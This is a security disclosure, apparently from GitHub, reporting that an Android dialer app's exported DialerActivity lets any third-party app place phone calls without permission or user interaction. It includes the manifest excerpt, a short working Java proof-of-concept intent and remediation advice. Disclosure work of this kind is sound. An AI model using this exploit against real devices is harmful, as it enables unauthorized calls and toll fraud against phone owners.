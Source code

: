  ** Note: This remains unpatched as of ver. 2.2.1 **
---

## Vulnerability Report

- **Application**: `com.cutestudio.colordialer` Version: 2.1.8-2 (220)
- **Component**: `com.cutestudio.dialer.activities.DialerActivity`
- **Vulnerability Type**: `CWE-284: Improper Access Control`
- **Associated Risks**: Unauthorized phone calls without user interaction or any permission

### Description:

The `com.cutestudio.dialer.activities.DialerActivity` component of the `com.cutestudio.colordialer` application is improperly exported, allowing any third-party application to send intents to it. This oversight results in a potential risk where unauthorized phone calls can be initiated without user consent or interaction.

### Proof of Concept:

A third-party application can craft an intent targeting `com.cutestudio.dialer.activities.DialerActivity` using the `android.intent.action.CALL` action paired with a `tel:` URI, thereby placing a phone call. The exported nature of this activity lacks any verification to authenticate the origin of the intent, leading to possible misuse.

### Code Samples:

1. **Manifest declaration in 'com.cutestudio.colordialer':**

```xml
<activity 
    android:theme="@style/Theme.Transparent" 
    android:label="@string/dialer" 
    android:name="com.cutestudio.dialer.activities.DialerActivity" 
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.CALL"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:scheme="tel"/>
    </intent-filter>
</activity>
```

2. **Proof of Concept using 'com.example.d3m0':**

```java
Intent dialerIntent = new Intent("android.intent.action.CALL");
dialerIntent.setComponent(new ComponentName("com.cutestudio.colordialer", "com.cutestudio.dialer.activities.DialerActivity"));
dialerIntent.setData(Uri.parse("tel:+1234567890"));
startActivity(dialerIntent);
```

![Demonstration](https://github.com/actuator/com.cutestudio.colordialer/blob/main/dial.gif)

### Recommendations:

1. Reevaluate the `android:exported` attribute of the `DialerActivity`. If there's no strict requirement for this activity to be exposed, it is advisable to set `android:exported="false"` in the AndroidManifest.xml.
2. Should there be a necessity to maintain the exported status, a stringent intent verification mechanism should be established to guarantee that only authenticated or trusted intents access the activity.

---
